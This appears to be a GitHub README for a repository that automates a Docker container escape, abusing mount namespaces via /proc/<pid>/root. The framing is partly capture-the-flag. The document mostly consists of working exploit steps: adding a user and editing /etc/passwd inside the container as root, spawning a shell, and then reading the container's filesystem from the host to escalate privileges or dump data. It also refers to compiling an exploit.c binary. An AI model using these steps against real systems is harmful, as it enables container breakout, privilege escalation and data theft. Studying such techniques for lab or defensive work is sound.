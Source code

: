 # Abusing mount namespaces through /proc/*PID*/root

In this repository I come to automate the namespace technique to escape from a Docker and elevate privileges/remove the flag/dump data, etcetera. You can read in more detail this technique [here](https://labs.withsecure.com/publications/abusing-the-access-to-mount-namespaces-through-procpidroot). In order to perform this technique successfully you need to fulfill the following requirements.

- Shell as non-privileged user on host
- Shell as root on the Docker.

## Exploit:

**The following steps you must run them in the Docker as root.**

``` shell
useradd luk4s # This user must exist on the host machine.
usermod -aG luk4s luk4s
echo "luk4s:x:1000:1000:luk4s:/home/luk4s:/bin/bash" >> /etc/passwd # The content can be taken out of the machine host -> grep luk4s /etc/paswd
su luk4s
/bin/sh # We run this command when we gain shell as luk4s in the container
```

With this we are ready to work on the container.

**The following commands must be executed from the hosts machine.**

``` shell
ps aux | grep sh # You will notice a process that runs your user with a sh, this was the process you created in the container
grep -a "flag" /proc/<pid>/root/sda
```

PoC:

![](https://i.imgur.com/7FyR5qG.png)

## Automation

Program a C script which automates the steps to follow in the container, if you want to use the binary you compile it using `gcc` and upload it to Docker.

``` shell
gcc exploit.c -o exploit
```
